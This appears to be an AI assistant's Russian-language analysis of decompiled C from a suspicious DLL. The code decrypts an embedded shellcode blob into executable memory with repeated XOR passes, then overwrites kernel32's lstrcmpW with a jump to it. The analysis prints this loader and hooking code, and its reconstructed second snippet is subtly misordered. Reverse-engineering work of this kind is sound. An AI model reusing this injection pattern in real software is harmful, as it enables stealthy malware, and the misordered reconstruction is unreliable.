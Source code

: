 ```c
  for ( i = 0; i < 0x64u; ++i )
  {
    v3 = sub_180001260(v5, 2656);
    for ( j = 0; j < 0xA60; ++j )
      *((_BYTE *)v5 + j) ^= v2;
    v2 -= v3;
  }
  v11[0] = -18360;
  v11[5] = -7937;
  v10 = v5;
  *(_QWORD *)&v11[1] = v5;
  lpAddress = GetProcAddress(hModule, "lstrcmpW");
  if ( !lpAddress )
    return 0;
  if ( !VirtualProtect(lpAddress, 7u, 0x40u, &flOldProtect) )
    return 0;
  qmemcpy(lpAddress, v11, 0xCu);
  return VirtualProtect(lpAddress, 7u, flOldProtect, &v9);
}
```

Теперь становится **абсолютно ясно**, что делает твоя DLL, и в частности, как связана часть под названием `Resources.Craft` — мы смотрим на фазу **внедрения и внедрённого патча** в ядро `kernel32.dll`.

Эта функция:

1. Загружает `kernel32.dll`.
2. Выделяет память.
3. Расшифровывает некий **зашифрованный фрагмент** (возможно, shellcode).
4. Патчит **`lstrcmpW`** внутри `kernel32.dll`, внедряя туда этот расшифрованный код.
5. Возвращает флаг успешности.

По сути — это **инжектор shellcode-а в стандартную API-функцию Windows**.

```c
hModule = LoadLibraryA("kernel32");
v5 = VirtualAlloc(0, 0xBB8u, 0x3000u, 0x40u);
qmemcpy(v5, &unk_18006F000, 0xA60u);

v2 = 5;
for ( i = 0; i < 0x64u; ++i )
{
  v3 = sub_180001260(v5, 2656);
  for ( j = 0; j < 0xA60; ++j )
    *((_BYTE *)v5 + j) ^= v2;
  v2 -= v3;
}


lpAddress = GetProcAddress(hModule, "lstrcmpW");

if ( !VirtualProtect(lpAddress, 7u, 0x40u, &flOldProtect) )
    return 0;
qmemcpy(lpAddress, v11, 0xCu);

v11[0] = -18360;         // Возможно, jmp-опкод или вызов
v11[5] = -7937;          // Часть адреса
*(_QWORD *)&v11[1] = v5; // Адрес shellcode-а`

```
